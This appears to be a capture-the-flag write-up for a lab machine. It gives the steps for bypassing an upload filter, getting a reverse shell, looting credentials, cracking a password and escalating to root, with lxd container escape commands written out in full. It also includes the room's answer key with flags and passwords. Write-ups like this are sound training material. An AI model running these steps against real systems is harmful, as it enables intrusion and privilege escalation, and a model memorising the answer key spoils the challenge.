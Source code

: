 # Day 24 - Time for some ELForensics

Deploy the machine and as usual lets start by doing a nmap scan

Now use gobuster on webserver that is hosted on port 65000

Lets go to file upload.php and upload our reversehsell file.

But wait the filter is causing us a lot of headache right? Lets fire up burpsuite and now reload the uploads page such a was that burp intercepts even the js file.

Once it get intercepted drop the filter.js file and foreword the remaining requests.

Now upload your Reverse Shell file after the upload is done.

Got to grid and save click on your RevShell and once you click it.


You Netcat listner gets a shell.

Now lets got o /var/www folder to get the flag and for dbauth.php in TheGrid/include folder for username and password.


Now lets login with the credentials that we got, on mysql

`mysql -utron -p`

And type in the password we got.

Now lets enum the databases

`show databases;`
`use torn;`
`show tables;`
`select * from users;`

Now we have another user's username and passowrd crack the password using crackstation.

now lets to flynn 

`su flynn`

and use the crackedpassword.

for the flag go to /home/flynn/user.txt

now lets see what group is flynn in using `id`

So we are part of lxd.

Lets look for any containers using

`lxc image list`

gives us that there is a container named Alpine.

So now lets do our privilege escalation 

`lxc init alpine <CONTAINERNAME> -c security.privileged=true`

`lxc config device add <CONTAINERNAME> <DEVICENAME> disk source=/ path=/mnt/root recursive=true`

`lxc start CONTAINERNAME`

`lxc exec CONTAINERNAME /bin/sh`

Once you get a shell use the following cmmands as we have the privilege as a root

Now we have the privilege of root 

`id`
`cd /mnt/root/root`
`cat root.txt`

### Questions

...

	1. Scan the machine. What ports are open?
		- Ans: 80, 65000
	2. What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.
		- Ans: Light Cycle
	3. What is the name of the hidden php page?
		- Ans: Uploads.php
	4. What is the name of the hidden directory where file uploads are saved?
		- Ans: grid
	5. Bypass the filters. Upload and execute a reverse shell. 
		- Ans: No answer needed
	6. What is the value of the web.txt flag?
		- Ans: THM{ENTER_THE_GRID}
	7. Upgrade and stabilize your shell.
		- Ans: No answer needed
	8.  the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password
		- Ans: tron:IFightForTheUsers
	9. Access the database and discover the encrypted credentials. What is the name of the database you find these in?
		- Ans: tron
	10. Crack the password. What is it?
		- Ans: @computer@
	11. Use su to login to the newly discovered user by exploiting password reuse. 
		- Ans: No answer needed.
	12. What is the value of the user.txt flag?
		- Ans: THM{IDENTITY_DISC_RECOGNISED}
	13. Check the user's groups. Which group can be leveraged to escalate privileges? 
		- Ans: lxd
	14. Abuse this group to escalate privileges to root
		- Ans: No answer needed
	15. What is the value of the root.txt flag?
		- Ans: THM{FLYNN_LIVES}

...

Out of this challenge took sometime as I was new to lxc but thanks to THM's description it was easy.

Thank you <3